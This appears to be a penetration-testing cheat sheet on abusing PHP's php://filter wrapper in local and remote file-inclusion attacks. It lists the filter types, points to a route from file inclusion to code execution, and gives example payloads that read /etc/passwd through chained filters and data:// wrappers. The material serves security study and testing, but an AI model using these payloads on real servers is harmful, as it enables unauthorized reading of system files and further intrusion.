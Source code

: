 ## LFI / RFI using PHP wrappers & protocols

### php://filter

PHP filters allow perform basic **modification operations on the data** before being it's read or written. There are 5 categories of filters:

* [String Filters](https://www.php.net/manual/en/filters.string.php):
  * `string.rot13`
  * `string.toupper`
  * `string.tolower`
  * `string.strip_tags`: Remove tags from the data (everything between "<" and ">" chars)
    * Note that this filter has disappear from the modern versions of PHP
* [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
  * `convert.base64-encode`
  * `convert.base64-decode`
  * `convert.quoted-printable-encode`
  * `convert.quoted-printable-decode`
  * `convert.iconv.*` : Transforms to a different encoding(`convert.iconv.<input_enc>.<output_enc>`) . To get the **list of all the encodings** supported run in the console: `iconv -l`

{% hint style="warning" %}
Abusing the `convert.iconv.*` conversion filter you can **generate arbitrary text**, which could be useful to write arbitrary text or make a function like include process arbitrary text. For more info check [**LFI2RCE via php filters**](lfi2rce-via-php-filters.md).
{% endhint %}

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
  * `zlib.deflate`: Compress the content (useful if exfiltrating a lot of info)
  * `zlib.inflate`: Decompress the data
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
  * `mcrypt.*` : Deprecated
  * `mdecrypt.*` : Deprecated
* Other Filters
  * Running in php `var_dump(stream_get_filters());` you can find a couple of **unexpected filters**:
    * `consumed`
    * `dechunk`: reverses HTTP chunked encoding
    * `convert.*`

```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

```